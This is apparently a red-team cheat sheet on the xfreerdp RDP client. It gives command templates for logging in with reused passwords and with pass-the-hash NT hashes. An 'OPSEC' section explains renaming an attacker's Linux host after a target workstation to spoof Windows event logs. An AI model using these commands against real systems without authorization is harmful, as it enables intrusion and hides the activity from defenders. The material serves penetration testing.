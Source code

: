```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploits
  - network-protocols
  - windows
  - linux
---
```

# FreeRDP

## 01 - Authenticate RDP

Choose keyboard layout that is familiar to you and then specify the `/kbd:0x<layout_id>` or `/kbd:US` flag.

```
$ xfreerdp /kbd-list
```

Fullscreen (the shortcut is `CTRL + ALT + Enter`) to toggle it.

```
$ xfreerdp /f
```

Drag resolution screen

```
$ xfreerdp /dynamic-resolution
```

Force specific protocol security. Older operating systems specify `/sec:rdp` and for modern operating system specify `/sec:tls` or `/sec:nla`.

```
$ xfreerdp /sec:<rdp | tls | nla>
```

Ignore certification

```
$ xfreerdp /cert:ignore
```

Reuse passwords

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"<username>" /d:"<domain>" /p:"<password>" /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"[<domain>\]<username>" /p:"<password>" /v:<IP>:[<PORT>]
```

Pass the Hash

```
$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"<username>" /d:"<domain>" /pth:<nt_hash> /v:<IP> [/port:<PORT>]

$ xfreerdp /kbd:US /clipboard /compression /dynamic-resolution /sec:<rdp | tls | nla> /u:"[<domain>\]<username>" /pth:<nt_hash> /v:<IP>:[<PORT>]
```

## 02 - OPSEC Consideration

Change your Linux hostname to the same target workstation to spoof the event logs.

```
$ hostnamectl hostname "<windows_workstation_name_to_spoof>"

$ sudo nmtui-hostname
```

Or you can append it in a line.

```
# echo "<windows_workstation_name_to_spoof>" > /etc/hostname

# hostname -F /etc/hostname
```

Once you're changed the `hostname`. Restart the terminal to apply it.

```
$ reset
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Network Protocols/Remote Services/Graphical Remote Program/RDP|Vulnerability Assessment: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Graphical Remote Program/RemoteKeyStrokes|Initial Access: RemoteKeyStrokes]]

- [awakecoding: FreeRDP User Manual](https://github.com/awakecoding/FreeRDP-Manuals/blob/master/User/FreeRDP-User-Manual.markdown)

- [Infinite Logins: Pass the Hash Attack with RDP](https://infinitelogins.com/2021/02/20/pass-the-hash-attack-with-rdp/)

- [Hacktricks: Pentesting RDP](https://book.hacktricks.xyz/pentesting/pentesting-rdp)

- [Make FreeRDP Prompt User for Username and Password](https://unix.stackexchange.com/questions/119880/make-freerdp-prompt-user-for-username-and-password)